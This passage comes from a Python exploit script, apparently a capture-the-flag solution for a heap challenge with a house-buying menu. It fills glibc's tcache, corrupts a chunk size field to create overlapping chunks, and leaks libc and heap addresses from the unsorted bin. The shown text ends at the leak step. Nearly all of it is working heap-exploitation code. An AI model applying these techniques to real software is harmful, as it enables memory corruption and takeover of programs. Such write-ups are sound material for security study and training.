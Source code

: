 ```
    return p.read(0x217)

def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))


if __name__ == '__main__':
    fuck_money(0x13f69b02593f69b1)
    fuck_money(0x109bb0727572e2bd)
    fuck_money(0x13f2b1389a662c33)
    fuck_money(0x4fcace18cee3091)

    #make tcache size 0x217 full
    for i in range(0, 7):
        buy_house(7, 0x217, "\x00")
        sell(7)

    #chunk after tcache and before tmp tcache bins
    buy_house(2, 0x80, "x" * 0x10)
    sell(2)
    buy_house(0, 0x400, "\xaa" * 0x400)
    buy_house(1, 0xa0, "\xbb" * 0xa0)
    buy_house(2, 0x90, "\xcc" * 0x90)
    buy_house(3, 0x90, "\xdd" * 0x90)

    #overlapping first
    upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

    for i in range(0, 7):
        buy_house(7, 0x90, "\x11" * 0x90)
        sell(7)

    #unsorted bin
    buy_house(4, 0x90, "\x44" * 0x90)
    buy_house(5, 0x90, "\x55" * 0x90)
    buy_house(6, 0x90, "\x66" * 0x90)
    buy_house(7, 0x90, "\x77" * 0x90)


    #a big chunk
    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0xa1) + "\xcc" * 0x90 +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
              p64(0) + p64(0xa1) + "\x44" * 0x90 +
              p64(0) + p64(0xa1) + "\x55" * 0x90 +
              p64(0) + p64(0xa1) + "\x66" * 0x90 +
              p64(0) + p64(0xa1) + "\x77" * 0x90 )
    #pause()
    sell(4)
    sell(6)

    #leak
    show_house(1, reading = False)
    for i in range(0, 10):
        ru(p64(0xa1))
    leaked_libc = u64(p.read(8))
    leaked_heap = u64(p.read(8))

```